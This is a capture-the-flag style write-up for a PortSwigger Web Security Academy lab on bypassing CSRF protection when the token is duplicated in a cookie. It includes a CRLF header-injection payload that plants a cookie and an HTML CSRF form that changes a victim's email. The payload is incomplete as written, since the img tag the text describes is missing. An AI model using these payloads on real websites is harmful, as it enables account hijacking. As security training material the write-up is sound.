





### CSRF where token is duplicated in cookie : PRACTITIONER

---


> Given credentials `wiener:peter`.

> Logging in with the given credentials.


> We see this page.


> We know that the update email is vulnerable to CSRF.
> Capturing a `POST` request via BURPSUITE PROXY HTTP history while updating the email address.



> We see that the csrf cookie is duplicated in the token.
> Trying to manipulate the values of the token and cookie.

1. Modify the token and leave the cookie.



2. Modify the cookie and leave the token.



3. Modifying both to the same value.



> Therefore, the validation technique simply checks if they are both equal.

> To exploit this, we need to send a cookie that has the same value as the token present in the HTML payload.
> To do that, similar to [[Portswigger/CSRF/Lab 6|Lab 6]], we exploit the search functionality and add in the `GET` request header injection to set a cookie.

> Capturing the `GET` request after searching using HTTP history.


> There is a `Set-Cookie` header being used to create a new cookie.
> We can change the path and the query parameters.

```
/?search=mins%0d%0aSet-Cookie:%20csrf=FAKE%3b%20SameSite=None
```

> Sending this request we see that we added another cookie.



> Now, we need to add this to the HTML payload. 
> Add it by removing the script tags and adding an img tag.

```HTML
<html> 
	<body> 
		<form action="https://0a74009f03ba08e0811b02f200930080.web-security-academy.net/my-account/change-email" method="POST"> 
			<input type="hidden" name="email" value="newmins@mins.com" /> 
			<input type="hidden" name="csrf" value="FAKE" />
		</form> 
		
	</body> 
</html>
```

> Adding this payload to the exploit server and then storing and delivering to victim completes the lab.

---


